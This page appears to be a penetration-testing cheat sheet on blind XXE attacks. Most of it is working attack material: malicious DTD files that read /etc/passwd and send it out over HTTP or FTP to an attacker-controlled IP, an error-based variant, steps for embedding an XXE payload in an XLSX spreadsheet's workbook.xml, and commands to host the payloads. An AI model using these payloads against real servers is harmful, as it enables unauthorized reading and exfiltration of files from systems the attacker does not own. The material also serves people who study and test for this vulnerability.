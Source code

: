 ```yaml
---
title: Blind XXE
description: XXE is a type of vulnerability that allows an attacker to inject and execute malicious XML code on a server that parses XML input, without directly receiving any feedback or response from the server.
tags:
    - XXE
    - Web
refs:
    - https://portswigger.net/web-security/xxe/blind
date: 2023-06-10
draft: false
---
```


## Data Exfiltration via Out-Of-Band

### 1. Create a Malicious DTD

We need to prepare the dtd file (named **"exploit.dtd"** here) to retrieve the target file.  
Replace the ip address with your own.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!-- <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php" -->
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.0.0.1/?x=%file;'>">
%eval;
%exfiltrate;
```

Then host it on web server.

```bash
sudo python3 -m http.server 80
```

<br />

### 2. Insert XXE

In http request body, insert the following XXE payload.  
Same as above DTD, replace the ip address with your own

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.0.0.1/exploit.dtd"> %xxe;]>
```

Now send request. We might retrieve the local file of the target system via web server.

<br /><br />

## Data Exfiltration via Out-Of-Band (Error-based)

If the website shows error messages when performing XXE, we can use the following malicious DTD.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

For the rest, please refer to the section above.

<br /><br />

## Inside XLSX File

An XLSX file is a Microsoft Excel spreadsheet.

<br />

### 1. Create a XLSX File

First we need to create a XLSX file using some software such as LibreOffice Calc.

<br />

### 2. Extract the XLSX File

```bash
7z -oXXE xxe.xlsx
cd XXE
```

We should get files such as **“.xml”**.

<br />

### 3. Add Blind XXE Payload in the XML File.

Insert the following payload into the **`xl/workbook.xml`**.  
Replace the **“10.0.0.1”** with your local ip address.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.0.0.1/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

<br />

### 4. Rebuild the XLSX File.

```bash
cd XXE
7z u ../xxe.xlsx *
```

<br />

### 5. Create XXE inside a DTD File

Create **“xxe.dtd”**.  
Replace **“10.0.0.1”** with your local ip address.

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.0.0.1:2121/%d;'>">
```

<br />

### 6. Start a local server

Serve the DTD file using [xxeserv](https://github.com/staaldraad/xxeserv).

```bash
git clone https://github.com/staaldraad/xxeserv.git
cd xxeserv
go mod init xxeftp.go
go build
go run xxeftp.go -o files.log -p 2121 -w -wd public -wp 8000
```

In another terminal, start a web server in the directory where “xxe.dtd” located.

```bash
sudo python3 -m http.server 80
```

Now upload **“xxe.xlsx”** file in the website. We should get the content of the desired file.
